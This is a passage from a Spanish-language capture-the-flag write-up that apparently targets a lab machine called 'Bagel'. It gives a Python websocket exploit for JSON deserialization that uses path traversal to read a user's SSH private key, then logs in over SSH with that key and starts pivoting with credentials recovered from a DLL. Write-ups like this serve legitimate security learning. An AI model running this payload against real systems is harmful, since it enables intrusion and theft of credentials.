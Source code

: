- Si analizamos la función "ReadOrder" podemos observar que se implementa sanitización a LFI, por lo que esta función queda descartada para un posible ataque.

- Si analizamos la función "RemoveOrder" nos damos cuenta que se trata de un "Objeto", el cuál podríamos usar para realizar un ataque [Json Deserialization](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf) usando el código de la app que habíamos encontrado con un par de modificaciones:

```bash
$nano exploitjsondes.py
```

```python
import json,websocket
ws = websocket.WebSocket()    
ws.connect("ws://10.129.21.151:5000/") # connect to order app
order = { "RemoveOrder" : {"$type":"bagel_server.File, bagel", "ReadFile":"../../../../../../home/phil/.ssh/id_rsa"}}
data = str(json.dumps(order))
ws.send(data)
result = ws.recv()
print(result)
```

###### NOTA: Los parámetros "bagel_server.File" "bagel" los podemos encontrar en el mismo archivo "bagel.dll" con "ILspy".

- El valor del atributo "$type" es una cadena de caracteres que indica el tipo del objeto, y en este caso, el valor es "bagel_server.File, bagel". El valor del atributo "ReadFile" ( que habíamos encontrado en el análisis del dll) es una cadena de caracteres que indica la ruta de un archivo en el sistema de archivos del servidor.

- Ejecutamos la script que hemos creado y obtenemos el contenido del archivo `"id_rsa"` del usuario "phil":

```bash
$python3 exploitjsondes.py
```

- Ahora con la clave privada del usuario "phil" podemos acceder via `SSH` sin contraseña:

```bash
$nano id_rsa
$chmod +600 id_rsa
$ssh -i id_rsa phil@10.129.21.151
```

- Habremos ganado acceso al sistema como "phil".


# ESCALANDO PRIVILEGIOS:

- En el análisis del archivo "bagel.dll" habíamos encontrado `credenciales` para un supuesto usuario "dev", intentamos pivotar con esta credencial al usuario "developer".

```bash
$su developer
```
